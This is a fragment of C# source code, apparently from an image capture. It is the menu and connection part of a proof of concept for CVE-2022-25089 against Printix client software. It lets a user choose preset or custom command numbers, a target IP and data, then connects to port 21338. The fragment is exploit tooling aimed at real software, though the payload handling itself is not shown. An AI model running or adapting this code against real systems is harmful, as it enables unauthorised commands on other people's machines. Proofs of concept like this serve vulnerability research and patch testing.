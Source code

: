             try
            {
                switch (int.Parse(Console.ReadLine().ToLower()))
                {
                    case (1):
                        Session session = new Session(2);

                        command = session.commandNumber;
                        host = session.host;
                        data = session.data;
                        DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);



                        break;
                    case (2):
                        Session sessionTwo = new Session(49);

                        command = sessionTwo.commandNumber;
                        host = sessionTwo.host;
                        data = sessionTwo.data;
                        DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);

                        break;
                    case (3):

                        Console.WriteLine("What command number do you want to input?");
                        command = int.Parse(Console.ReadLine().ToString());
                        Console.WriteLine("What IP would you like to use? (Default = localhost)");
                        host = Console.ReadLine();
                        Console.WriteLine("What data do you want to send? (Keep over 4 chars if you are not sure!)");
                        data = Console.ReadLine();

                        Console.WriteLine("What session name do you want to use? ");
                        DefaultValues.CurrentSessName = Console.ReadLine();
                        break;
                    case (4):
                        Console.WriteLine("Not yet implemented.");
                        break;
                }
            }
            catch (Exception e)
            {
                Console.WriteLine("Invalid Input!");
                goto InvalidInputLabel;
            }
            
            Console.WriteLine("Proof Of Concept For CVE-2022-25089 | Version: 1.3.24 | Created by Logan Latvala");
            Console.WriteLine("This is a RAW API, in which you may get unintended results from usage.\n");

            CompCommClient client = new CompCommClient();


            byte[] responseStorage = new byte[25555];
            int responseCMD = 0;
            client.Connect(host, 21338, 3, 10000);
